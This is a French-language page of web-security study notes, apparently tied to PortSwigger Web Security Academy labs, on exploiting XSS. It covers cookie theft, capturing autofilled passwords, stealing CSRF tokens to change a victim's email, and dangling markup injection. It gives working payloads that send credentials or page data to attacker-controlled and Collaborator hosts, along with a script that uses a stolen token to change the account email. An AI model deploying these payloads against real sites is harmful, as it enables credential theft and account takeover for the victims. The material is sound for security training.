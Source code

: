 ## Voler des cookies

Le vol de cookies est une méthode traditionnelle d'exploitation des attaques XSS. La plupart des applications web utilisent des cookies pour la gestion des sessions. Vous pouvez exploiter les vulnérabilités de script intersite pour envoyer les cookies de la victime vers votre propre domaine, puis les injecter manuellement dans le navigateur et usurper l'identité de la victime.

## Capturer les mots de passe

De nos jours, de nombreux utilisateurs disposent de gestionnaires de mots de passe qui saisissent automatiquement leurs mots de passe. Vous pouvez en tirer parti en créant un mot de passe, en lisant le mot de passe saisi automatiquement et en l'envoyant à votre propre domaine. Cette technique évite la plupart des problèmes liés au vol de cookies et permet même d'accéder à tous les autres comptes où la victime a réutilisé le même mot de passe.

Le principal inconvénient de cette technique est qu'elle ne fonctionne que pour les utilisateurs disposant d'un gestionnaire de mots de passe avec saisie automatique.

```html
<input hidden name=username id=username>
<input hidden type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

## Contourner les protections CSRF

Les attaques XSS permettent à un attaquant d'effectuer quasiment tout ce qu'un utilisateur légitime peut faire sur un site web. En exécutant du code JavaScript arbitraire dans le navigateur de la victime, les attaques XSS vous permettent d'effectuer un large éventail d'actions comme si vous étiez l'utilisateur victime. Par exemple, vous pouvez lui demander d'envoyer un message, d'accepter une demande d'ami, de créer une porte dérobée vers un dépôt de code source ou de transférer des bitcoins.

Certains sites web permettent aux utilisateurs connectés de modifier leur adresse e-mail sans avoir à ressaisir leur mot de passe. Si vous avez détecté une vulnérabilité XSS sur l'un de ces sites, vous pouvez l'exploiter pour voler un jeton CSRF. Grâce à ce jeton, vous pouvez modifier l'adresse e-mail de la victime pour en choisir une que vous contrôlez. Vous pouvez ensuite déclencher une réinitialisation du mot de passe pour accéder au compte.

Ce type d'exploit combine XSS (pour voler le jeton CSRF) avec la fonctionnalité généralement ciblée par CSRF. Alors que le CSRF traditionnel est une vulnérabilité « unidirectionnelle », où l'attaquant peut inciter la victime à envoyer des requêtes sans voir les réponses, XSS permet une communication « bidirectionnelle ». Cela permet à l'attaquant d'envoyer des requêtes arbitraires et de lire les réponses, créant ainsi une attaque hybride qui contourne les défenses anti-CSRF.

> Les jetons CSRF sont inefficaces contre XSS car XSS permet aux attaquants de lire les valeurs des jetons directement à partir des réponses.


```html
<script>
	var req = new XMLHttpRequest();
	req.onload = handleResponse;
	req.open('get','/my-account',true);
	req.send();
	function handleResponse() {
	    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
	    var changeReq = new XMLHttpRequest();
	    changeReq.open('post', '/my-account/change-email', true);
	    changeReq.send('csrf='+token+'&email=test@test.com')
	};
</script>
```

```html
<script>
var req = new XMLHttpRequest();                     // 1. Crée un objet requête HTTP
req.onload = handleResponse;                        // 2. Quand la réponse arrive, appelle la fonction handleResponse
req.open('get','/my-account',true);                 // 3. Prépare une requête GET vers "/my-account"
req.send();                                         // 4. Envoie la requête

function handleResponse() {
    // 5. Cherche dans la réponse HTML un champ caché avec le token CSRF
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    // 6. Crée une nouvelle requête HTTP pour changer l'email
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);

    // 7. Envoie le formulaire avec le token CSRF récupéré + un nouvel email
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

Cela obligera toute personne qui consulte le commentaire à envoyer une demande POST pour modifier son adresse e-mail. `test@test.com`.


## Injection de balisage suspendu
> Dangling markup injection

est une technique permettant de capturer des données inter-domaines dans des situations où une attaque de XSS complète n'est pas possible.

```html
"><img src='//attacker-website.com?
```

Cette charge utile crée une balise `img` et définit le début d'un attribut `src` contenant une URL sur le serveur de l'attaquant. Notez que la charge utile de l'attaquant ne ferme pas l'attribut `src` laissé en suspens.

Lorsqu'un navigateur analyse la réponse, il recherche un guillemet simple pour terminer l'attribut. Tout ce qui précède est traité comme faisant partie de l'URL et est envoyé au serveur de l'attaquant dans la chaîne de requête. Tous les caractères non alphanumériques, y compris les retours à la ligne, sont codés en URL.

L'attaque permet à l'attaquant de capturer une partie de la réponse de l'application après le point d'injection, qui peut contenir des données sensibles. Selon les fonctionnalités de l'application, il peut s'agir de jetons CSRF, d'e-mails ou de données financières.

Tout attribut qui effectue une demande externe peut être utilisé pour le balisage suspendu.

```html
"><a href="https://exploit-0a0300ac035828cb82ae507b01dc00cd.exploit-server.net/exploit">Click me</a><base target='';
```

```html
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

```html
<script>
if(window.name) {
		new Image().src='https://a4fi319gzs2w28xn2cgtvzyv9mfd3ir7.oastify.com?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://0a9b000303d528fc82ff51d700b100c5.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a0300ac035828cb82ae507b01dc00cd.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
